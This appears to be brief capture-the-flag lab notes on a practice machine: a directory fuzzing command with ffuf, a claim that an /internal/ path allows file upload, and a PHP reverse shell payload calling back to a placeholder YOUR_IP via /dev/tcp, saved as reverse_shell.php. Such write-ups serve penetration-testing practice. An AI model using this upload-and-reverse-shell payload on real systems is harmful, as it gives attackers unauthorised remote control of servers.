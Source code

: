 # Directory Brute Forcing

I have fuzzed the http port using the tool: **FUZZ**

```json
ffuf -u http://10.10.155.145:3333/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

![[Pasted image 20250807130720.png]]

# File Upload Vulnerability

The */internal/* path is vulnerable to **File Upload**

![[Pasted image 20250807130951.png]]


# Getting the reverse shell

```json
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'");
?>
```

Then i have saved this command to the following file: *reverse_shell.php*.

